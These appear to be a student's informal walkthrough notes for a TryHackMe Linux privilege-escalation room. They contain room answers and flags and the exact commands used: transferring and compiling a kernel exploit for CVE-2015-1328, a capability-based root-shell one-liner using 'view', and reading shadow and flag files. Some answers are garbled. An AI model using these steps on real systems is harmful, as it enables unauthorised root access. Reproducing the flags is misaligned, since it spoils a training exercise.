 
tryHackme:
<https://tryhackme.com/room/linprivesc>
#  Answer the questions below
What is the hostname of the target system?
wade7363-hostname

What is the Linux kernel version of the target system?

3.13.0-24-generic
cat /proc/version

What Linux is this?

ubuntu 14.04 LTS
/etc/issue

What version of the Python language is installed on the system?
python --version

2.7.6
What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)

CVE-2015-1328
<https://nvd.nist.gov/vuln/detail/CVE-2015-1328>
google search: 3.13.0-24-generic cve
1st result

# Task 4

Answer the questions below
find and use the appropriate kernel exploit to gain root privileges on the target system.
No answer needed-
Answer the questions below
find and use the appropriate kernel exploit to gain root privileges on the target system.-

Steps:
I used my kali machine. firstly connected to the vpn and then ssh to attack machine.
how?
- to get vpn file..go to tryhackme-click on top righthand side icon(an image)- access. There u will find vpn file.
- To access it on kali, put it on shared folder on windows c:/githubciscopackettracer/sharedmitu1
- open shared folder in kali and copy the path to vpn
- create a new vpn in kali- go to + vpn and then last option(saved vpn) and save it here.
- open the vpn from top right side
-  now we have to get the exploit file on kali. My foxfire was not loading..so I used windows.
- - search for the same kernel  exploit cve on google and download it.
- - put it in the same shared folder and access it on kali

- To download the exploit on the target:
- - first ssh it: ssh@ip of the attck amchine(given by tryhackme) karen
- - give the pwd too
- - go to next command terminal in kali and start http server:
- go to shared folder where file is - and then run http server
python3 -m http.server(by default it starts on 8000 port)
-- open 1 more terminal go to temp folder and get  that file by: wget  <my machine ip> :8000/<filename>(37292.c)
eg: wget 10.18.24.126:8000/37292.c
- now u get the exploit on target machine.
- need to compile and run it
- gcc 37292.c -o ofc(new file name)
- chmod +x ofc
- now run it: ./ofc
- done
- check whoami- u will get root
- 




What is the content of the flag1.txt file?

Answer format: THM-28392872729920
Command:
- once u get access to root, find the file flag1.txt
find / -type f -name flag1.txt
- Ans: /home/matt/flag1.txt
- cat it 


# Task 6

ref: <https://www.youtube.com/watch?v=7WQndt-1WzE&t=123s>

Answer the questions below
How many programs can the user "karen" run on the target system with sudo rights?
3
What is the content of the flag2.txt file?

THM-402028394

process:


How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

Answer format: **** **** *************
What is the hash of frank's password?

Answer format: 
cat etc/shadow


# Task7

Answer the questions below
Which user shares the name of a great comic book writer?

cat /etc/password
Ans: gerry corner

The /etc/passwd file contains the username, real name, identification information, and basic account information for each user.The /etc/passwd file must not contain password hashes.

What is the password of user2?

Answer format: *********

For this we have to do privilege escalation
 A shadow password file, also known as /etc/shadow, is a system file in Linux that stores encrypted user passwords and is accessible only to the root user,
 
What is the content of the flag3.txt file?

tHM-3847834
steps: use bin base64
change LFILE= /home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
you will get the flag


# Task 8:
Answer the questions below
Complete the task described above on the target system
No answer needed
How many binaries have set capabilities?
6
command: getcap -r 2>/dev/null

Answer format: *
What other binary can be used through its capabilities?
view
Answer format: ****
What is the content of the flag4.txt file?
thm-9349843
steps: 
- in ques 1; you find u can use view command capability
- go to gtfobins
- in capabilities..find view
- type this command:
- /home/ubuntu/view -c ':py  3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
- you will get vim editor and check id now
- it will be root privilege
-to find the flag:
-cd / home
ls
cd ubuntu
ls
cat flag4.txt



# task 9:

Answer the questions below
How many user-defined cron jobs can you see on the target system?
Answer format: *
What is the content of the flag5.txt file?
Answer format: *************
What is Matt's password?



